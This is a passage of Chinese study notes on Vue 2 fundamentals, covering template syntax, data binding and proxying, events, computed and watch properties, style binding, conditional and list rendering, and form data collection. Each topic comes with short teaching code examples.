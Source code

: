# Vue

> 2021.7.17 - 2021.8.2

## 一、Vue基础

### 1-1 Vue简介

#### 1. 官网

> 英文：https://vuejs.org/
>
> 中文：https://cn.vuejs.org/

#### 2. Vue是什么？

> 一套用于`构建用户界面`的`渐进式`JavaScript框架
>
> 渐进式：Vue可以自底向上逐层的应用：
>
> - 简单应用：只需一个轻量小巧的核心库
> - 复杂应用：可以引入各式各样的Vue插件

#### 3. 谁开发的？

> 尤雨溪
>
> 后起之秀，生态完善，已然成为国内前端工程师必备技能、

#### 4. Vue的特点

> 1. 采用`组件化`模式，提高代码复用率、且让代码更好维护
> 2. `声明式`编码，让编码人员无需直接操作DOM，提高开发效率（JS是命令式编码，一步一步指令）
> 3. 使用`虚拟DOM`+优秀的`Diff算法`，尽量复用DOM节点

#### 5. 学习Vue之前要掌握的JavaScript基础知识

> ES6语法规范
>
> ES6模块化
>
> 包管理器（npm、cpm...）
>
> 原型、原型链
>
> 数组常用方法
>
> axios
>
> promise
>
> ...

### 1-2 官网导航

#### 1. 学习

> 1. 教程！！！
> 2. API（Vue字典）！！！
> 3. 风格指南：如何写出优雅的代码
> 4. 示例：把示例左边框往右边拉就能看到代码
> 5. Cookbook：技巧
> 6. 视频教程

#### 2. 生态系统

> 1. 帮助
>
> 2. 工具！！！
>
> 3. 核心插件！！！
>
> 4. 信息

#### 3. 团队

> 1. 合作伙伴
>
> 2. 主题
>
> 3. Awesome Vue（官方推荐的第三方库）！！！
>
> 4. 浏览和Vue相关的包

#### 4. 其他...

### 1-3 初始Vue

#### 1. 安装

1. 直接用<script>引入（vue.js/vue.min.js），引入后就多了个Vue构造函数，这时开发者工具上会有两个提示：

   - 提示安装devtools开发者调试工具以便更好的调试，点击跳转到GitHub，要在Chrome上安装，所以点击Installation里的`Get the Chrome Extension`，然后将下载的包添加到浏览器的扩展中即可

   - 提示发布时使用生产版本（vue.min.js），可以在官网API中看到Vue.config这个对象，是全局配置，里面的productionTip改为false就可以阻止vue在启动时生成生产提示

     ```JavaScript
     Vue.config.productionTip = false
     ```

2. NPM安装，同时配合命令行工具（CLI）

#### 2. 简单样例

```HTML
<!-- 准备好一个容器 -->
<div id="demo">
	<h1>Hello，{{name.toUpperCase()}}，{{address}}</h1>
</div>
<script type="text/javascript" >
	Vue.config.productionTip = false 
	//创建Vue实例
	new Vue({
		el:'#demo', //el用于指定当前Vue实例为哪个容器服务，值通常为css选择器字符串。(也可以是document.getElementById('#demo'))
		data:{ //data中用于存储数据，数据供el所指定的容器去使用，值我们暂时先写成一个对象。
			name:'atguigu',
			address:'北京'
		}
	})
</script>
```

#### 3. 相关问题

1. 想让Vue工作，就必须创建一个Vue实例，且要传入一个配置对象；
2. 容器里的代码依然符合html规范，只不过混入了一些特殊的Vue语法；
3. 容器里的代码被称为【Vue模板】；
4. Vue实例和容器是一一对应的；
5. 真实开发中只有一个Vue实例，并且会配合着组件一起使用；
6. {{xxx}}中的xxx要写js表达式，且xxx可以自动读取到data中的所有属性；
7. 一旦data中的数据发生改变，那么页面中用到该数据的地方也会自动更新；

```
注意区分：js表达式 和 js代码(语句)
1.表达式(即特殊的js语句)：一个表达式会产生一个值，可以放在任何一个需要值的地方：				
	(1). a							
	(2). a+b						
	(3). demo(1)					
	(4). x === y ? 'a' : 'b'
2.js代码(语句)
	(1). if(){}
	(2). for(){}
```

### 1-4 模板语法

#### 1. 插值语法

1. 功能：用于解析标签体内容。

2. 写法：{{ xxx }}，xxx是js表达式，且可以直接读取到data中的所有属性

#### 2. 指令语法

1. 功能：用于解析标签（包括：标签属性、标签体内容、绑定事件.....）
2. 写法：v-????
3. 举例：v-bind:href="xxx" 或 简写为 :href="xxx"，xxx同样要写js表达式，且可以直接读取到data中的所有属性。

### 1-5 数据绑定

#### 1. 单向数据绑定(v-bind)：

1. 数据只能从data流向页面。

  #### 2.双向绑定(v-model)：

1. 数据不仅能从data流向页面，还可以从页面流向data。
2. v-model只能应用在表单类元素（输入类元素 如：input、select等）上 ，因为它作用于value
3. v-model:value 可以简写为 v-model，因为v-model默认收集的就是value值。

### 1-6 el与data的两种写法

#### 1. el

1. new Vue时候配置el属性，el:'#root'
2. 先创建Vue实例，随后再通过vm.$mount('#root')指定el的值(mount：挂载)

#### 2. data

1. 对象式

   ```js
   data:{
   	name:'尚硅谷'
   }
   ```

2. 函数式（必须有return{}）

   ```js
   data(){
   	console.log('@@@',this) //此处的this是Vue实例对象
   	return{
   		name:'尚硅谷'
   	}
   }
   ```

3.  如何选择：目前哪种写法都可以，以后学习到组件时，data必须使用函数式，否则会报错。

4. 一个重要的原则：

   ```
   由Vue管理的函数，一定不要写箭头函数，一旦写了箭头函数，this就不再是Vue实例了，箭头函数没有自己的this，往外找，就找到了全局的window
   ```

### 1-7 MVVM模型

#### 1. MVVM模型

1. M：模型（Model）：对应data中的数据

2. V：视图（View）：模板

3. VM：视图模型（ViewModel）：Vue实例对象（因此在文档中经常会使用 `vm` (ViewModel 的缩写) 这个变量名表示 Vue 实例）

<img src="笔记/images/MVVM模型.png" alt="MVVM模型"  />

<img src="笔记/images/MVVM.png" alt="MVVM" style="zoom: 67%;" />

#### 3. 观察发现

1. data中所有的属性，最后都出现在了vm身上。
2. vm身上所有的属性 及 Vue原型上所有属性，在Vue模板中都可以直接使用。

### 1-8 数据代理

#### 1. Object.defineproperty方法

1. [`Object.defineProperty()`](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Object/defineProperty) 方法会直接在一个对象上定义一个新属性，或者修改一个对象的现有属性，并返回此对象，新增的属性默认是不参与枚举（遍历）的。

2. 语法：

   ```
   Object.defineProperty(obj, prop, descriptor)
   - obj: 要定义属性的对象
   - prop: 要定义或修改的属性的名称或 Symbol 。
   - descriptor: 要定义或修改的属性描述符。
   ```

3. 描述符：
   - `enumerable` 定义了对象的属性是否可以在 [`for...in`](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Statements/for...in) 循环和 [`Object.keys()`](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Object/keys) 中被枚举，默认为false
   - `value` 该属性对应的值。可以是任何有效的 JavaScript 值（数值，对象，函数等），默认为 [`undefined`](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/undefined)。
   - `writable` 控制属性是否可以被修改，也就是上面的 `value`，能否被[`赋值运算符`](https://developer.mozilla.org/zh-CN/docs/conflicting/Web/JavaScript/Reference/Operators_8d54701de06af40a7c984517cbe87b3e)改变，默认为 `false`。
   - `configurable` 当且仅当该属性的 `configurable` 键值为 `true` 时，该属性的描述符才能够被改变，同时该属性也能从对应的对象上被删除，默认为 `false`。
   - `get` 属性的 getter 函数。当访问该属性时，会调用此函数。执行时不传入任何参数，但是会传入 `this` 对象（由于继承关系，这里的`this`并不一定是定义该属性的对象）。该函数的返回值会被用作属性的值，默认为 `undefined`。
   - `set` 属性的 setter 函数。当属性值被修改时，会调用此函数。该方法接受一个参数（也就是被赋予的新值），会传入赋值时的 `this` 对象，默认为 `undefined`。

```js
let number = 18
let person = {
	name:'张三',
	sex:'男',
}
Object.defineProperty(person,'age',{
	// value:18,
	// enumerable:true, //控制属性是否可以枚举，默认值是false
	// writable:true, //控制属性是否可以被修改，默认值是false
	// configurable:true //控制属性是否可以被删除，默认值是false

	//当有人读取person的age属性时，get函数(getter)就会被调用，且返回值就是age的值
    /* 
     * 在控制台中，将鼠标放在该属性值(即省略号)上时会出现提示：Invoke property getter(调用属性的getter)
     * age: (...) 点击这个省略号就会调用get()读取属性
     */
	get(){
		console.log('有人读取age属性了')
		return number
	},
	//当有人修改person的age属性时，set函数(setter)就会被调用，且会收到修改的具体值
	set(value){
		console.log('有人修改了age属性，且值是',value)
		number = value
	}
})
```

#### 2. 定义

- 数据代理：通过一个对象代理对另一个对象中属性的操作（读/写）

```js
let obj = {x:100}
let obj2 = {y:200}
//本例实现了通过obj2对obj的数据代理
Object.defineProperty(obj2,'x',{
	get(){
		return obj.x
	},
	set(value){
		obj.x = value
	}
})
```

#### 3. Vue中的数据代理

1. Vue中的数据代理：通过vm对象来代理data对象中属性的操作（读/写）

2. Vue中数据代理的好处：更加方便的操作data中的数据

3. 基本原理：

   - 通过Object.defineProperty()把data对象中所有属性添加到vm上。

   - 为每一个添加到vm上的属性，都指定一个getter/setter。

   - 在getter/setter内部去操作（读/写）data中对应的属性。

![数据代理](.\images\数据代理.png)

### 1-9 事件处理

#### 1. 事件的基本使用

1. 使用v-on:xxx 或 @xxx 绑定事件，其中xxx是事件名；
2. 事件的回调需要配置在methods对象中，最终会在vm上（如果写在data上则会做一个数据代理，而这是没必要的)；
3. methods中配置的函数，不要用箭头函数！否则this就不是vm了；
4. methods中配置的函数，都是被Vue所管理的函数，this的指向是vm 或 组件实例对象；
5. @click="demo" 和 @click="demo($event)" 效果一致，但后者可以传参；

```HTML
<div id="root">
	<h2>欢迎来到{{name}}学习</h2>
	<button @click="showInfo1">点我提示信息1（不传参）</button>
	<button @click="showInfo2($event,66)">点我提示信息2（传参）</button>
</div>
```

```js
methods:{
	showInfo1(event){
        // console.log(event.target.innerText)
        // console.log(this) //此处的this是vm
        alert('同学你好！')
	},
	showInfo2(event,number){
		console.log(event,number)
		// console.log(event.target.innerText)
		// console.log(this) //此处的this是vm
		alert('同学你好！！')
	}
}
```

#### 2. 事件修饰符

1. prevent：阻止默认事件（常用）；<==> 相当于在回调函数中调用了`event.preventDefault()`方法
2. stop：阻止事件冒泡（常用）；<==> `event.stopPropagation()`
3. once：事件只触发一次（常用）；
4. capture：使用事件的捕获模式（即在捕获阶段就触发事件）；
5. self：只有event.target是当前操作的元素时才触发事件(在某种程度上来说也能阻止冒泡)；
6. passive：事件的默认行为立即执行，无需等待事件回调执行完毕（一般移动端会用一下）；

```html
<!-- wheel事件表示鼠标滚轮滚动事件，触发时会先执行回调函数，再执行默认行为（滚动条滚动） -->
<ul @wheel.passive="demo" class="list">
	<li>1</li>
    <li>2</li>
    <li>3</li>
    <li>4</li>
</ul>
<!-- 修饰符可以连续写，如下所示是先阻止默认行为再阻止冒泡；@click.stop.prevent是先阻止冒泡再阻止默认行为 -->
<!-- <a href="http://www.atguigu.com" @click.prevent.stop="showInfo">点我提示信息</a> -->
```

```js
demo() {
	for (let i = 0; i < 100000; i++) {
		console.log('#')
	}
	console.log('累坏了')
}
```

#### 3. 键盘事件

1. Vue中常用的按键别名：

   ```
   回车 => enter
   删除 => delete (捕获“删除”和“退格”键)
   退出 => esc
   空格 => space
   换行 => tab (特殊，必须配合keydown去使用，因为它按下后就会切换焦点，所以无法配合keyup使用)
   上 => up
   下 => down
   左 => left
   右 => right
   ```

2. Vue未提供别名的按键，可以使用按键原始的key值去绑定，但注意要转为kebab-case（短横线命名），比如CapsLock→caps-lock

3. 系统修饰键（用法特殊）：ctrl、alt、shift、meta(即Win)

   1) 配合keyup使用：按下修饰键的同时，再按下其他键，随后释放其他键，事件才被触发。

   2) 配合keydown使用：正常触发事件。

4. 也可以使用keyCode去指定具体的按键（不推荐，因为未来也许keyCode会被废止）

5. Vue.config.keyCodes.自定义键名 = 键码，可以去定制按键别名

```HTML
<input type="text" placeholder="按下回车提示输入" @keydown.enter="showInfo"> <!-- 按下Enter键触发 -->
<!-- 系统修饰符也可以连续写，比如要按下ctrl+y键才能触发 -->
<input type="text" placeholder="按下回车提示输入" @keydown.ctrl.y="showInfo">
```

### 1-10 计算属性与监视

#### 1. 计算属性

1. 定义

   - 计算属性：要用的属性不存在，要通过已有属性计算得来，计算属性要有一个全新的配置项computed
   - 对Vue来说，data里面的数据就是属性，只要Vue中的数据改变，就会重新解析模板，遇到插值语法里的方法会重新调用

2. 原理

   - 底层借助了`Objcet.defineproperty`方法提供的getter和setter。

3. get函数什么时候执行？

   - 初次读取时会执行一次。

   - 当`依赖的数据`发生改变时会被再次调用。

4. 优势

   - 与methods实现相比，内部有缓存机制（复用），效率更高，调试方便。

5. 备注

   - 计算属性最终会出现在vm上，直接读取使用即可。

   - 如果计算属性要被修改，那必须写set函数去响应修改，且set中要引起计算时依赖的数据发生改变。

```js
const vm = new Vue({
    ...
    computed:{
        fullName:{
            //get有什么作用？当有人读取fullName时，get就会被调用，且返回值就作为fullName的值
            //get什么时候调用？1.初次读取fullName时。2.所依赖的数据发生变化时。
            get(){
                console.log('get被调用了')
                // console.log(this) //此处的this是vm
                return this.firstName + '-' + this.lastName
            },
            //set什么时候调用? 当fullName被修改时。
            set(value){
                console.log('set',value)
                const arr = value.split('-')
                this.firstName = arr[0]
                this.lastName = arr[1]
            }
        }
    }
})    
```

```js
//简写(只读不写时才能简写，该函数就当getter用)
fullName(){
	console.log('get被调用了')
	return this.firstName + '-' + this.lastName
}
```

#### 2. 监视（侦听）属性

```HTML
<!-- 绑定事件的时候：@xxx="yyy" yyy可以写一些简单的语句 -->
<button @click="isHot = !isHot">切换天气</button>
```

1. 监视属性watch：

   - 当被监视的属性变化时, 回调函数自动调用, 进行相关操作
   - 监视的属性必须存在，才能进行监视！！
   - 监视的两种写法：

   ```js
   // 1. new Vue时传入watch配置
   const vm = new Vue({
       ...
       watch:{
           isHot:{
               immediate:true, //初始化时让handler调用一下
               //handler什么时候调用？当isHot发生改变时。
               handler(newValue,oldValue){
                   console.log('isHot被修改了',newValue,oldValue)
               }
           }
       }
   })
   // 2. 通过vm.$watch监视
   vm.$watch('isHot',{
   	immediate:true, //初始化时让handler调用一下，默认是false
   	//handler什么时候调用？当isHot发生改变时。
   	handler(newValue,oldValue){ // 有两个参数，一个是新值，一个是旧值
   		console.log('isHot被修改了',newValue,oldValue)
   	}
   })
   ```

2. 深度监视

   - 深度监视：

     1）Vue中的watch默认不监测对象内部值的改变（一层）。

     2）配置deep:true可以监测对象内部值改变（多层）。

   - 备注：

     1）Vue自身可以监测对象内部值的改变，但Vue提供的watch默认不可以！

     2）使用watch时根据数据的具体结构，决定是否采用深度监视。

   ```js
   data:{
   	isHot:true,
   	numbers:{
   		a:1,
   		b:1
   	}
   },
   watch:{
   	// 监视多级结构中某个属性的变化（原始写法是要加引号的，简写可以不加，但这种情况要加，否则报错）
   	/* 'numbers.a':{
   		handler(){
   			console.log('a被改变了')
   		}
   	} */
   	//监视多级结构中所有属性的变化
   	numbers:{
   		deep:true, // 如果不开启这个，那监测的就是numbers的地址是否有变化
   		handler(){
   			console.log('numbers改变了')
   		}
   	}
   }
   ```

3. 监视属性-简写

   当监视属性中只有handler()而不需要开启其他配置项时才能简写

   ```js
   watch:{
   	isHot(newValue,oldValue){
   		console.log('isHot被修改了',newValue,oldValue,this)
   	}
   }
   
   /* vm.$watch('isHot',function (newValue,oldValue) {
   	console.log('isHot被修改了',newValue,oldValue,this)
   }) */
   ```

#### 3. 区别和原则

1. computed和watch之间的区别
   - computed能完成的功能，watch都可以完成。
   - watch能完成的功能，computed不一定能完成，例如：watch可以进行异步操作。
2. 两个重要的小原则
   - 所有被Vue管理的函数，最好写成普通函数，这样`this的指向才是vm 或 组件实例对象`。
   - 所有不被Vue所管理的函数（定时器的回调函数、ajax的回调函数等、Promise的回调函数），最好写成箭头函数，这样`this的指向才是vm 或 组件实例对象`。

```js
watch:{
	firstName(val){
		setTimeout(()=>{
			console.log(this) //vue实例对象，若用普通函数则返回Window
			this.fullName = val + '-' + this.lastName
		},1000);
	},
	lastName(val){
		this.fullName = this.firstName + '-' + val
	}
}
```

### 1-11 绑定样式

#### 1. 绑定class样式

- 写法:class="xxx" xxx可以是字符串、对象、数组。

```html
<!-- 字符串写法，适用于：样式的类名不确定，需要动态指定 -->
<div class="basic" :class="mood" @click="changeMood">{{name}}</div>

<!-- 数组写法，适用于：要绑定的样式个数不确定、名字也不确定 -->
<div class="basic" :class="classArr">{{name}}</div>

<!-- 对象写法，适用于：要绑定的样式个数确定、名字也确定，但要动态决定用不用 -->
<div class="basic" :class="classObj">{{name}}</div>
```

```js
data:{
	name:'尚硅谷',
	mood:'normal',
	classArr:['atguigu1','atguigu2','atguigu3'], // 可以通过数组的相关方法来移除或添加
	classObj:{ // true就是应用，false就是不应用
		atguigu1:false,
		atguigu2:false,
	}
},
methods: {
	changeMood(){
		const arr = ['happy','sad','normal']
		const index = Math.floor(Math.random()*3) // 随机生成[0, 2]的数据
		this.mood = arr[index]
	}
},
  
/*  vm.classArr.shift(); // 删除第一个
vm.classArr.push('atguigu1'); */
```

#### 2. 绑定style样式

- :style="{fontSize: xxx}"其中xxx是动态值，属性名用驼峰命名法，或者加引号 → {'font-size': xxx}
  :style="[a,b]"其中a、b是样式对象。

```html
<!-- 对象写法 -->
<div class="basic" :style="styleObj">{{name}}</div>

<!-- 数组写法，比较少用 -->
<div class="basic" :style="[styleObj, styleObj2]">{{name}}</div>
<div class="basic" :style="styleArr">{{name}}</div>
```

```js
data: {
    styleObj: {
        fontSize: '40px',
        color: 'red',
    },
    styleObj2: {
        backgroundColor: 'orange'
    },
    styleArr: [{
        fontSize: '40px',
        color: 'blue',
    }, {
        backgroundColor: 'gray'
    }]
},
```

### 1-12 条件渲染

#### 1. v-show

- 写法：v-show="表达式"
- 适用于：切换频率较`高`的场景
- 特点：不展示的DOM元素`未被移除`，仅仅是使用样式diaplay:none隐藏掉

```html
<!-- <h2 v-show="false">欢迎来到{{name}}</h2> -->
<h2 v-show="1 === 1">欢迎来到{{name}}</h2>
```

#### 2. v-if

- 写法：

  1）v-if="表达式" 

  2）v-else-if="表达式"

  3）v-else="表达式"

- 适用于：切换频率较`低`的场景

- 特点：不展示的DOM元素`直接被移除

- 注意：v-if可以和 v-else-if、v-else 一起使用，但要求结构不能被“打断”。

```html
<div v-if="n === 1">Angular</div>
<div v-else-if="n === 2">React</div>
<!-- <div></div> --> <!-- 这个盒子是不允许出现在这里的，会打断v-xxx的条件分支 -->
<div v-else-if="n === 3">Vue</div>
<div v-else>哈哈</div>

<!-- v-if与template的配合使用，template不会在DOM中显示 | 注意：template不能与v-show配合使用 -->
<template v-if="n === 1">
	<h2>你好</h2>
	<h2>尚硅谷</h2>
	<h2>北京</h2>
</template>
```

#### 3. 备注

- 使用v-if的时，元素可能无法获取到，而使用v-show一定可以获取到。因为用v-if时，若值为false，则元素直接被移除，此时无法获取到元素

### 1-13 列表渲染

#### 1. 基本列表

- v-for指令:

  1. 用于展示列表数据

  2. 语法：

     - v-for="item in items" :key="yyy"
     - v-for="(item, index) in items" :key="yyy"

  3. 可遍历：数组、对象、字符串（用的很少）、指定次数（用的很少）

     除了对象中k是属性名，遍历其他类型时样例中的index都是从0起算

```html
<!-- 准备好一个容器-->
<div id="root">
	<!-- 遍历数组 -->
	<ul>
		<li v-for="(p,index) of persons" :key="index"> <!-- 这里的key也可以是p.id -->
			{{p.name}}-{{p.age}}
		</li>
	</ul>
	<!-- 遍历对象 -->
	<ul>
		<li v-for="(value,k) of car" :key="k"> <!-- k-属性名|value-属性值 -->
			{{k}}-{{value}}
		</li>
	</ul>
	<!-- 遍历字符串（用得少） -->
	<ul>
		<li v-for="(char,index) of str" :key="index"> <!-- char表示str的每个字符 -->
			{{char}}-{{index}}
		</li>
	</ul>
	
	<!-- 遍历指定次数（用得少） -->
	<ul>
		<li v-for="(number,index) of 5" :key="index"> <!-- number∈[1, 5] -->
			{{index}}-{{number}}
		</li>
	</ul>
</div>
```

```js
data:{
	persons:[
		{id:'001',name:'张三',age:18},
		{id:'002',name:'李四',age:19},
		{id:'003',name:'王五',age:20}
	],
	car:{
		name:'奥迪A8',
		price:'70万',
		color:'黑色'
	},
	str:'hello'
}
```

#### 2. key的原理

1. 从后台请求过来的数据一定会有一个唯一标识，这样数据库中才能对数据进行增删改查操作，也就是键值

2. 面试题：react、vue中的key有什么作用？（key的内部原理）

![遍历列表时key的作用（index作为key）](.\images\遍历列表时key的作用（index作为key）.png)

	1. 虚拟DOM中key的作用：
		key是虚拟DOM对象的标识，当数据发生变化时，Vue会根据【新数据】生成【新的虚拟DOM】, 
		随后Vue进行【新虚拟DOM】与【旧虚拟DOM】的差异比较，比较规则如下：
	2.对比规则：
		(1).旧虚拟DOM中找到了与新虚拟DOM相同的key：
			①.若虚拟DOM中内容没变, 直接使用之前的真实DOM！
			②.若虚拟DOM中内容变了, 则生成新的真实DOM，随后替换掉页面中之前的真实DOM。
		(2).旧虚拟DOM中未找到与新虚拟DOM相同的key
			创建新的真实DOM，随后渲染到到页面。
	3. 用index作为key可能会引发的问题：
		1. 若对数据进行：逆序添加、逆序删除等破坏顺序操作:
			会产生没有必要的真实DOM更新 ==> 界面效果没问题, 但效率低。
		2. 如果结构中还包含输入类的DOM：
			会产生错误DOM更新 ==> 界面有问题。
	4. 开发中如何选择key?:
		1.最好使用每条数据的唯一标识作为key, 比如id、手机号、身份证号、学号等唯一值。
		2.如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，仅用于渲染列表用于展示，
		使用index作为key是没有问题的。

![遍历列表时key的作用（id作为key）](.\images\遍历列表时key的作用（id作为key）.png)

#### 3. 列表过滤

- 用数组方法 `filter()`，该方法创建一个新数组, 其包含通过所提供函数实现的测试的所有元素

  ```
  语法：var newArray = arr.filter(callback(element[, index[, array]])[, thisArg])
  - callback：用来测试数组的每个元素的函数。返回 true 表示该元素通过测试，保留该元素，false 则不保留
  	- element：数组中当前正在处理的元素。
  	- index：(可选)正在处理的元素在数组中的索引。
  	- array：(可选)调用了 filter 的数组本身。
  - thisArg：(可选)执行 callback 时，用于 this 的值。
  ```

- 模糊查询用数组方法`indexOf()`，该方法返回在数组中可以找到一个给定元素的第一个索引，若存在，则返回的索引从0起算；如果不存在，则返回-1。另外，若查询的是一个空串，也返回0

```html
<!-- 准备好一个容器-->
<div id="root">
    <h2>人员列表</h2>
    <input type="text" placeholder="请输入名字" v-model="keyWord">
    <ul>
        <li v-for="(p,index) of filPerons" :key="p.id">
            {{p.name}}-{{p.age}}-{{p.sex}}
        </li>
    </ul>
</div>
```

```js
//用watch实现
new Vue({
	el:'#root',
	data:{
		keyWord:'',
		persons:[
			{id:'001',name:'马冬梅',age:19,sex:'女'},
			{id:'002',name:'周冬雨',age:20,sex:'女'},
			{id:'003',name:'周杰伦',age:21,sex:'男'},
			{id:'004',name:'温兆伦',age:22,sex:'男'}
		],
		filPerons:[]
	},
	watch:{
		keyWord:{
			immediate:true, //初始化时让handler调用一下，此时val=''(空串)，就能把persons赋给filPersons了
			handler(val){
				this.filPerons = this.persons.filter((p)=>{ //这里用回调函数，this是vue实例
					return p.name.indexOf(val) !== -1	   //若用普通函数，this是Window
				})
			}
		}
	}
})
```

```js
//用computed实现
new Vue({
    el: '#root',
    data: {
        keyWord: '',
        persons: [{
            id: '001',
            name: '马冬梅',
            age: 19,
            sex: '女'
        }, {
            id: '002',
            name: '周冬雨',
            age: 20,
            sex: '女'
        }, {
            id: '003',
            name: '周杰伦',
            age: 21,
            sex: '男'
        }, {
            id: '004',
            name: '温兆伦',
            age: 22,
            sex: '男'
        }]
    },
    computed: {
        filPerons() {
            return this.persons.filter((p) => {
                return p.name.indexOf(this.keyWord) !== -1
            })
        }
    }
})
```

```js
//#region 
/*
...小技巧：在VScode中，只要像这样把多行注释的内容包围起来，那多行注释的内容就可折叠了
*/
//#endregion
```

#### 4. 列表排序

```html
<!-- 准备好一个容器-->
<div id="root">
	<h2>人员列表</h2>
	<input type="text" placeholder="请输入名字" v-model="keyWord">
	<button @click="sortType = 2">年龄升序</button>
	<button @click="sortType = 1">年龄降序</button>
	<button @click="sortType = 0">原顺序</button>
	<ul>
		<li v-for="(p,index) of filPerons" :key="p.id">
			{{p.name}}-{{p.age}}-{{p.sex}}
			<input type="text">
		</li>
	</ul>
</div>
```

```js
new Vue({
	el:'#root',
	data:{
		keyWord:'',
		sortType:0, //0原顺序 1降序 2升序
		persons:[
			{id:'001',name:'马冬梅',age:30,sex:'女'},
			{id:'002',name:'周冬雨',age:31,sex:'女'},
			{id:'003',name:'周杰伦',age:18,sex:'男'},
			{id:'004',name:'温兆伦',age:19,sex:'男'}
		]
	},
	computed:{
		filPerons(){ //该计算属性依赖于sortType，只要它变了就会重新计算
			const arr = this.persons.filter((p)=>{
				return p.name.indexOf(this.keyWord) !== -1
			})
			//判断一下是否需要排序
			if(this.sortType){
				arr.sort((p1,p2)=>{
					return this.sortType === 1 ? p2.age-p1.age : p1.age-p2.age
				})
			}
			return arr
		}
	}
}) 
```

#### 5. Vue监测数据改变的原理

 1. vue会监视data中所有层次的数据。

 2. 如何监测`对象`中的数据？

    通过setter实现监视(给每个属性添加数据代理)，且要在new Vue时就传入要监测的数据。
    		(1) 对象中后追加的属性，Vue默认不做响应式处理
    		(2) 如需给后添加的属性做响应式，请使用如下API：
    				`Vue.set(target，propertyName/index，value) ` 或 
    				`vm.$set(target，propertyName/index，value)`

 3. 如何监测`数组`中的数据？

    通过包裹数组`更新元素的方法`实现，本质就是做了两件事：
    		(1) 调用原生对应的方法对数组进行更新。
    		(2) 重新解析模板，进而更新页面。

 4. 在Vue修改数组中的某个元素一定要用如下方法：
    		        (1) 使用这些API: `push()、pop()、shift()、unshift()、splice()、sort()、reverse()`
                	(2) `Vue.set()` 或 `vm.$set()`

 5. 如果要使用诸如`filter()`之类不影响原数组的方法，就把通过该方法返回的数组直接替换原数组

	特别注意：Vue.set() 和 vm.$set() 不能给vm 或 vm的根数据对象(_data) 添加属性！！！

```html
<div id="root">
    <h1>学生信息</h1>
    <button @click="student.age++">年龄+1岁</button> <br/>
    <button @click="addSex">添加性别属性，默认值：男</button> <br/>
    <button @click="student.sex = '未知' ">修改性别</button> <br/>
    <button @click="addFriend">在列表首位添加一个朋友</button> <br/>
    <button @click="updateFirstFriendName">修改第一个朋友的名字为：张三</button> <br/>
    <button @click="addHobby">添加一个爱好</button> <br/>
    <button @click="updateHobby">修改第一个爱好为：开车</button> <br/>
    <button @click="removeSmoke">过滤掉爱好中的抽烟</button> <br/>
    <h3>姓名：{{student.name}}</h3>
    <h3>年龄：{{student.age}}</h3>
    <h3 v-if="student.sex">性别：{{student.sex}}</h3>
    <h3>爱好：</h3>
    <ul>
        <li v-for="(h,index) in student.hobby" :key="index">
            {{h}}
        </li>
    </ul>
    <h3>朋友们：</h3>
    <ul>
        <li v-for="(f,index) in student.friends" :key="index">
            {{f.name}}--{{f.age}}
        </li>
    </ul>
</div>
```

```js
const vm = new Vue({
    el: '#root',
    data: {
        student: {
            name: 'tom',
            age: 18,
            hobby: ['抽烟', '喝酒', '烫头'],
            friends: [{
                name: 'jerry',
                age: 35
            }, {
                name: 'tony',
                age: 36
            }]
        }
    },
    methods: {
        addSex() {
            // Vue.set(this.student,'sex','男')
            this.$set(this.student, 'sex', '男')
        },
        addFriend() {
            this.student.friends.unshift({
                name: 'jack',
                age: 70
            })
        },
        updateFirstFriendName() {
            this.student.friends[0].name = '张三' // 这里本质是修改对象的属性，有setter就能监测到变化
        },
        addHobby() {
            this.student.hobby.push('学习')
        },
        updateHobby() {
            // 不能通过索引（数组下标）直接修改
            // this.student.hobby.splice(0,1,'开车')
            // Vue.set(this.student.hobby,0,'开车')
            this.$set(this.student.hobby, 0, '开车')
        },
        removeSmoke() {
            this.student.hobby = this.student.hobby.filter((h) => {
                return h !== '抽烟'
            })
        }
    }
})
```

### 1-14 收集表单数据

若：`<input type="text"/>`，则v-model收集的是value值，用户输入的就是value值。
若：`<input type="radio"/>`，则v-model收集的是value值，且要给标签配置value值。
若：`<input type="checkbox"/>`

1. 没有配置input的value属性，那么收集的就是checked（勾选 or 未勾选，是布尔值）
2. 配置input的value属性:
   		(1) v-model的初始值是非数组，那么收集的就是checked（勾选 or 未勾选，是布尔值）
      		(2) v-model的初始值是数组，那么收集的的就是value组成的数组
   备注：v-model的三个修饰符：
   		lazy：失去焦点再收集数据
   		number：输入字符串转为有效的数字
   		trim：输入首尾空格过滤

```html
<div id="root">
	<form @submit.prevent="demo">
		账号：<input type="text" v-model.trim="userInfo.account"> <br/><br/>
		密码：<input type="password" v-model="userInfo.password"> <br/><br/>
		年龄：<input type="number" v-model.number="userInfo.age"> <br/><br/>
		性别：
		男<input type="radio" name="sex" v-model="userInfo.sex" value="male">
		女<input type="radio" name="sex" v-model="userInfo.sex" value="female"> <br/><br/>
		爱好：
		学习<input type="checkbox" v-model="userInfo.hobby" value="study">
		打游戏<input type="checkbox" v-model="userInfo.hobby" value="game">
		吃饭<input type="checkbox" v-model="userInfo.hobby" value="eat">
		<br/><br/>
		所属校区
		<select v-model="userInfo.city">
			<option value="">请选择校区</option>
			<option value="beijing">北京</option>
			<option value="shanghai">上海</option>
			<option value="shenzhen">深圳</option>
			<option value="wuhan">武汉</option>
		</select>
		<br/><br/>
		其他信息：
		<textarea v-model.lazy="userInfo.other"></textarea> <br/><br/>
